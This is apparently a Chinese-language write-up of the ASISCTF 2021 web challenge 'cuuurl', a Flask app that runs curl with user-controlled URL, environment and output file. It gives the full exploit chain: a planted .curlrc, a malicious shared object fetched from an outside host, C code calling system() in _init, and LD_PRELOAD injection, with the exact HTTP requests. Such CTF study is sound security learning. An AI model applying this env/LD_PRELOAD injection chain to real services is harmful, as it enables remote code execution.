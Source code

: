 ```yaml
---
title: ASISCTF 2021
date: 2021-12-30 10:58:00
category: CTF Writeup
tags: 
	- ASISCTF
---
```


## Web

### cuuurl

```
Do you know how to pronounce "curl"?
Download source code from here.
```

核心代码：

```python
@app.route('/')
def index(): #Poor coding skills :( can't even get process output properly
	url = request.args.get('url') or "http://localhost:8000/sayhi"
	env = request.args.get('env') or None
	outputFilename = request.args.get('file') or "myregrets.txt"
	outputFolder = f"./outputs/{hashlib.md5(request.remote_addr.encode()).hexdigest()}"
	result = ""

	if(env):
		env = env.split("=")
		env = {env[0]:env[1]}
	else:
		env = {}

	# print("env: ", env)

	master, slave = pty.openpty()
	os.set_blocking(master,False)
	try:
		subprocess.run(["/usr/bin/curl","--url",url],stdin=slave,stdout=slave,env=env,timeout=3,)
		result = os.read(master,0x4000)
	except Exception as e:
		os.close(slave)
		os.close(master)
		report = str(e)
		report += "\nurl: " + url + "\nenv: " + str(env) + "\noutputFilename: " + outputFilename
		return report,200,{'content-type':'text/plain;charset=utf-8'}

	os.close(slave)
	os.close(master)

	if(not os.path.exists(outputFolder)):
		os.mkdir(outputFolder)

	if("/" in outputFilename):
		outputFilename = secrets.token_urlsafe(0x10)

	with open(f"{outputFolder}/{outputFilename}","wb") as f:
		f.write(result)

	return redirect(f"/view?file={outputFilename}", code=302)
```

题目业务逻辑为：

-   使用curl命令访问任意url并写入内容到指定目录的任意命名的文件下，同时可以配置环境变量env
-   通过/view下传参文件名，访问文件内容

一开始尝试file://协议读取flag，发现没有权限，但是给了一个binary文件可以读取flag

```dockerfile
RUN chmod 400 /flag.txt
RUN chmod 111 /readflag
RUN chmod +s /readflag
```

因此思路是想办法执行根目录下readflag文件，得到flag

因为文件名可以任意写，且目录已知，通过curl官方文档 [curl - How To Use](https://curl.se/docs/manpage.html#CURLHOME) 可以得知curl会首先寻找HOME环境变量目录下的.curlrc文件作为配置文件，在.curlrc文件中可以任意添加curl的参数。而env环境变量可以通过请求指定，确保能够访问到.curlrc文件。

所以可以写个.so文件然后通过env变量LD_PRELOAD执行.so文件，进而执行readfile。.curlrc文件如下：

```
--output /tmp/test.so
```

test.c：

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    system("/readflag");
}
```

编译成.so文件：

```bash
gcc -fPIC -shared -o test.so test.c -nostartfiles
```

最后调整GET请求参数就可以拿下flag了~

```http
GET /?url=http://IP/curlrc.txt&env=&file=.curlrc HTTP/1.1
GET /?url=http://IP/test.so&env=HOME=/app/outputs/DIRECTORY&file= HTTP/1.1 // 发送这个请求的时候服务器会返回报错，但是实际上已经执行成功了。调试发现具体报错为：[Errno 11] Resource temporarily unavailable，但并没有找到很好的解释为什么会报这个错误
GET /?url=http://IP/&env=LD_PRELOAD=/tmp/test.so&file= HTTP/1.1
GET /view?file=myregrets.txt HTTP/1.1
```




